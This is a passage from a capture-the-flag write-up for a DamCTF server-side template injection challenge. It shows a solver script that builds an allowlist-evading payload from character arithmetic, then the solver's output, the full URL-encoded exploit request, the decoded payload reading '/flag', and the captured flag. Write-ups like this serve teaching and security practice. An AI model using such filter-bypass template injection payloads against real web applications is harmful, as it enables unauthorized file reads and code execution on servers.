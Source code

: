 ```python
str = ""
for char in pld:
    if char in allowlist:
        str+=char + "+"
    else:
        str+=chrify(formulas[char]) + "+"
        

str = str.replace('+', '%2b')

print(f"({str[:-1]})|e")


```

```python
morph3 ➜ damctf-ssti-challenge/ λ python3 solver.py
("%2b1%2b"%2b%2b%2bo%2b(111%2b1)|ch%2be%2b(111-1)|ch%2b(%2b'%2b(61-14)|ch%2b(116-14)|ch%2bl%2b(111-14)|ch%2b(114-11)|ch%2b'%2b)%2b(46)|ch%2br%2be%2b(111-14)|ch%2bd%2b(%2b)%2)|e
```



There is also a character limit as well. Lovely.
![](https://i.imgur.com/gNtOnlP.png)

Looking into it, some of the allowed characters are not concatenated well. Let's fix it.
```python
('"1"+o'+(111+1)|ch+'e'+(111-1)|ch+"('"+(61-14)|ch+(116-14)|ch+"l"+(111-14)|ch+(114-11)|ch+"')"+(46)|ch+"re"+(111-14)|ch+"d()")|e
```

https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload={{%28%27%221%22%2Bo%27%2B%28111%2B1%29%7Cch%2B%27e%27%2B%28111%2D1%29%7Cch%2B%22%28%27%22%2B%2861%2D14%29%7Cch%2B%28116%2D14%29%7Cch%2B%22l%22%2B%28111%2D14%29%7Cch%2B%28114%2D11%29%7Cch%2B%22%27%29%22%2B%2846%29%7Cch%2B%22re%22%2B%28111%2D14%29%7Cch%2B%22d%28%29%22%29%7Ce}}

![](https://i.imgur.com/stGfYqJ.png)

Executed payload,

```python
"1"+open('/flag').read()
```

`dam{p4infu1_all0wl1st_w3ll_don3}`
